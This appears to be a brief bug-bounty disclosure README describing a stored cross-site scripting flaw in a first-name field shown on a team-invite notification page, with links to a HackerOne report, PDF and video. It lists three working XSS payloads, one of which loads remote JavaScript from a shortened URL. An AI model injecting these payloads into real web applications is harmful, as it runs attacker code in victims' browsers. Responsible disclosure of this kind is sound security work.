 # -hack1chall
STORED XSS in frist name on page notification bypass limit character

HackerOne : https://hackerone.com/reports/1032059
<br/>
PDF REPORT : https://github.com/kai63001/Stored-XSS-on-Notification-invite-team-HackerOne/blob/main/report.pdf
<br/>
VIDEO : https://github.com/kai63001/Stored-XSS-on-Notification-invite-team-HackerOne/blob/main/video%20test.mp4

`<script src=//cutt.ly/s-></script>`
`<script src=url.js/>` 
`<svg onload=alert(1) />` 


![1](/Screenshot_2020-11-12%20Your%20tournaments%20-%20Challonge.png)
![2](/Screenshot_2020-11-12_08-35-57.png)
